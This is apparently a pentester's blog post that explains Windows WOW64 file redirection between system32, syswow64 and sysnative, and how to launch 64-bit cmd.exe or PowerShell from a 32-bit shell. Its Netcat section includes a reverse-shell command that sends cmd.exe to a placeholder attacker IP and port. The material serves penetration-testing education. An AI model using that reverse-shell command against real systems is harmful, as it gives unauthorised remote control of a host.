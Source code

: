 ```yaml
---
layout: post
published: true
featured: true
title: WOW64 for Pentesters
headline: 'WOW64 '
description: What you need to know as a pen tester.
modified: '2019-03-01'
categories:
  - hacking
  - windows
tags: hacking windows wow64 powershell sysnative
---
```

## The Problem

Exploit code can be challenging to make work, it can be rough around the edges, specific to certain environments and libraries, and have syntax errors and bugs.  Some Windows-based exploits require an understanding and navigation of 32-bit application compatibility on 64-bit systems, which Windows calls "Windows on Windows" or WOW64.  This also applies to Powershell, which has both 32-bit and 64-bit versions of powershell.exe.

## The Solution

The 64-bit versions of Windows provide an emulation layer for 32-bit applications that provide access to 32-bit versions of libraries, executables, directories and registry keys so that these apps can run transparently without modification. 

This emulation layer is called WOW64 (Windows on Windows) and by understanding how it works, you can run 64-bit versions of apps from a 32-bit process and vice versa.

## Detecting 64-bit Windows

There are several ways to detect a 64-bit version of Windows, one of which is to use the _set_ command to display environment variables and look for processor architecture. Another simple way is to verify the presence of the _Program Files (x86)_ directory, which only exists on 64-bit versions of Windows.

## File Redirection for 32-Bit Apps

Windows 64-bit libraries and executables are located in the _%SYSTEMROOT%\system32_ directory.  The name may seem confusing, but was done to maintain backwards compatibility because of hard coded paths.  

Windows 32-bit libraries and executables are located in the _%SYSTEMROOT%\syswow64_ directory, but instead of having to modify paths in source code, WOW64 transparent redirects 32-bit app calls from _%SYSTEMROOT%\system32_ to _%SYSTEMROOT%\syswow64_.

A 32-bit app can also explicitly access 64-bit versions using the _%SYSTEMROOT%\sysnative_ path (not visible in Windows Explorer).

```

32-bit app > 32-bit versions > \system32 ( secretly redirected to \syswow64)
32-bit app > 64-bit versions > \sysnative

```

A 64-bit application can also access 32-bit versions directly using \syswow64.

```

64-bit app > 32-bit versions > \syswow64

```

## Netcat Example

When spawning a command shell from a Windows system, in many situations you might transfer nc.exe to the host to spawn a reverse shell using the _-e cmd.exe_ switch.  Because the nc.exe binary is 32-bit, it will call the 32-bit version of cmd.exe and any commands you use will be 32-bit versions, including powershell.exe. 

There's a few ways around this if needed:

Explictly spawn the 64-bit version of cmd.exe with netcat if you are certain your target is 64-bit:

```shell

nc -e %SYSTEMROOT%\sysnative\cmd.exe ATTACKER-IP ATTACKER-PORT

```

Spawn the 32-bit cmd.exe but explicitly call 64-bit versions of apps, using  the sysnative path.
Here's an example I had to use recently to explicitly open a 64-bit powershell prompt from a 32-bit cmd.exe shell.

```shell

%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe

```

## Further Reading

- [WOW64 Implementation](https://www.google.com/url?q=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fwinprog64%2Fwow64-implementation-details&sa=D&sntz=1&usg=AFQjCNGd8WizV4rztmURfGV_gTqyJ1J-dQ)
- [Running 32-Bit Applications](https://www.google.com/url?q=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fwinprog64%2Frunning-32-bit-applications&sa=D&sntz=1&usg=AFQjCNGZLoBioW3ekJr23FDLA8eWWBiqaA)
- [Accessing Alternate Registry Views](https://www.google.com/url?q=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fwinprog64%2Faccessing-an-alternate-registry-view&sa=D&sntz=1&usg=AFQjCNFqcilC4yY0Yz4u-yOfEQxsiKuwzw)


 
  
   